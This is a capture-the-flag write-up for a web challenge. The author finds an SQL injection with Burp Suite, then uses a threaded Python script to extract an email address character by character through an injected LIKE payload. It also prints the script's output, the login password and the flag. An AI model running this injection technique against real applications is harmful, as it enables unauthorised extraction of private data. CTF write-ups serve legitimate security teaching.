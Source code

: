 # Too Blind To See

`Description`

Mogambro, our rookie intern, just stepped foot into the prestigious Software Firm. His big moment, the first project review, is knocking at the door like a pesky neighbor. But wait! Somewhere in his app lurks a secret which the admins are not aware of, hidden behind the password 'fluffybutterfly'. Can you crack the code and rescue Mogambro from this password puzzle? The clock is ticking!

http://20.244.82.82:7000/

![alt text](images/image.png)

![alt text](images/image-4.png)

`Solution`

I started with scanning and enumeration of the website using `Burpsuite`. 

![alt text](images/image-1.png)

And found the high severity vulnerability after scanning then send to repeater.

![alt text](images/image-3.png)

This is an output based SQL injection. Then tried to bruteforce to grab and email from the database using `LIKE`.

![alt text](images/image-2.png)

I wrote a script to bruteforce the email from the database.

```python
import requests
import concurrent.futures

chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@."

url = 'http://20.244.82.82:7000/final-destination' # POST


email=''

def check_email(email):
    data = {
        "email": f"' or email like '{email}%'--"
    }
    res = requests.post(url, data=data)
    return "Email exists" in res.text


with concurrent.futures.ThreadPoolExecutor() as executor:
    while True:
        futures = [executor.submit(check_email, email + char) for char in chars]
        concurrent.futures.wait(futures)

        for char, future in zip(chars, futures):
            if future.result():
                email += char
                print("EMAIL: ", email)
                break
```

```
└─$ python3 solver.py
EMAIL:  k
EMAIL:  kr
EMAIL:  kra
EMAIL:  kraz
EMAIL:  krazy
EMAIL:  krazyk
EMAIL:  krazyko
EMAIL:  krazykor
EMAIL:  krazykorg
EMAIL:  krazykorga
EMAIL:  krazykorgao
EMAIL:  krazykorgaon
EMAIL:  krazykorgaonk
EMAIL:  krazykorgaonka
EMAIL:  krazykorgaonkar
EMAIL:  krazykorgaonkar@
EMAIL:  krazykorgaonkar@h
EMAIL:  krazykorgaonkar@ho
EMAIL:  krazykorgaonkar@hot
EMAIL:  krazykorgaonkar@hotm
EMAIL:  krazykorgaonkar@hotma
EMAIL:  krazykorgaonkar@hotmai
EMAIL:  krazykorgaonkar@hotmail
EMAIL:  krazykorgaonkar@hotmail.
EMAIL:  krazykorgaonkar@hotmail.c
EMAIL:  krazykorgaonkar@hotmail.co
EMAIL:  krazykorgaonkar@hotmail.com
```

I got the email and I logged in with the email and password `fluffybutterfly` and got the flag.

![alt text](images/image-5.png)

`FLAG: BITSCTF{5UB5Cr183r5_4r3_M0r3_7HAN_JU5T_C0N5UM3r5}`